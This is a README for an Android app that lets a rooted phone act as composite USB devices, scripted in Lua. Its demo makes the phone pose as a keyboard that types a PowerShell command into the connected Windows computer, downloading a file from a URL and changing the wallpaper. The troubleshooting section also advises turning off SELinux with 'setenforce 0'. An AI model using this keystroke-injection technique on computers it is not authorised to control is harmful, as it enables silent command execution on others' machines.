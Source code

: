 # Android USB Script

**Use at your own risk. For educational purposes only.**

An Android app that provides a simple Lua interface for enumerating and interfacing
with arbitrary composite USB devices.

**Root access is required.**

## Demonstration

The best way to explain what this app does is with a code example. The following script
does the following when interpreted by this app:

1. Configures your phone to become a USB keyboard
2. Sends a series of key presses to the computer your phone is plugged in to, changing
its wallpaper

```lua
-- create a USB composite device composed of a single keyboard
usb = luausb.create({ id = 0, type = "keyboard" })
kb = usb.dev[1]

local file = prompt("Wallpaper to download?", "https://i.imgur.com/46wWHZ3.png")

while true do
    print("idle")

    -- wait for the phone to be plugged into a computer
    while usb.state() == "not attached" do
        wait(1000)
    end

    print("running")
    wait(1000)

    kb.chord(MOD_LSUPER, KEY_R)     -- open Windows run dialog
    wait(2000)                      -- wait for it to open
    kb.string("powershell\n")       -- open powershell
    wait(2000)
    -- execute a script that downloads and changes the wallpaper
    kb.string("[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;" ..
            "(new-object System.Net.WebClient).DownloadFile('" .. file .. "',\"$Env:Temp\\b.jpg\");\n" ..
            "Add-Type @\"\n" ..
            "using System;using System.Runtime.InteropServices;using Microsoft.Win32;namespa" ..
            "ce W{public class S{ [DllImport(\"user32.dll\")]static extern int SystemParamet" ..
            "ersInfo(int a,int b,string c,int d);public static void SW(string a){SystemParam" ..
            "etersInfo(20,0,a,3);RegistryKey c=Registry.CurrentUser.OpenSubKey(\"Control Pan" ..
            "el\\\\Desktop\",true);c.SetValue(@\"WallpaperStyle\", \"2\");c.SetValue(@\"Tile" ..
            "Wallpaper\", \"0\");c.Close();}}}\n" ..
            "\"@\n" ..
            "[W.S]::SW(\"$Env:Temp\\b.jpg\")\n" ..
            "exit\n")

    print("done")
    -- wait until the phone is unplugged
    while usb.state() == "configured" do
        wait(1000)
    end
end
```

Several other sample scripts are
[included in the repository](https://github.com/Netdex/android-usb-script/tree/master/app/src/main/assets/scripts).

## Requirements
**This app will not work on every Android device.** If your Android OS has Linux Kernel
version >= 3.18 and is compiled with configfs and f_hid, then the app can try to create usb
gadgets.

New demo applications can be added to `assets/scripts`. The API is pretty much self-documenting,
just look at the existing demos to get a feel for how the API works.

## Troubleshooting
### "Device Malfunctioned" on Windows 10
There may be an incompatibility between the supported USB speed between the USB function and USB
port. For example, if you try to use the HID function on a port that only supports USB SuperSpeed,
you will get this error. This is common when using certain USB 3.0 hubs. If you plugged into a USB
hub, try using a port connected to the USB Root Hub. If you plugged into a USB 3.0 port, try using a
USB 2.0 port.

### "java.io.IOException: Could not write to /dev/hidgX"
Try setting SELinux to permissive mode by running `setenforce 0` as root.


## Third-party
- [libsuperuser](https://github.com/Chainfire/libsuperuser)
- [LuaJ](http://www.luaj.org/luaj/3.0/README.html)

